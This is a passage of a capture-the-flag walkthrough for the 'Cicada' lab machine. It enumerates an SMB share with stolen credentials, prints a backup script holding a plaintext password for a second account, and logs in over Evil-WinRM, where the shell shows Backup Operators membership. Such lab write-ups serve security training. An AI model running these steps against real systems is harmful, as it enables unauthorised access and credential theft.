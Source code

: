 Enumerating Files in the DEV Share with Davidâ€™s Credentials

```jsx
smbclient //10.10.11.35/DEV -U 'david.orelious'
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 07:31:39 2024
  ..                                  D        0  Thu Mar 14 07:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 12:28:22 2024

```

Inspecting the Backup Script for Additional Credentials

```jsx
 cat Backup_script.ps1 

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

```
The script contains a password for the backup account emily.oscars.
The user has READ, WRITE access to C$ share 

![image.png]({{ '/assets/img/Cicada/image%201.png' | relative_url }})

Logging into the share as â€œemily.oscarsâ€

![image.png]({{ '/assets/img/Cicada/image%202.png' | relative_url }})

Fetching the flag from the user desktop

![image.png]({{ '/assets/img/Cicada/image%203.png' | relative_url }})

Logged in to the machine as emily.oscars leveraging â€œEvil-Winrmâ€.

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== =============================================
cicada\emily.oscars S-1-5-21-917908876-1423158569-3159038727-1601

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
```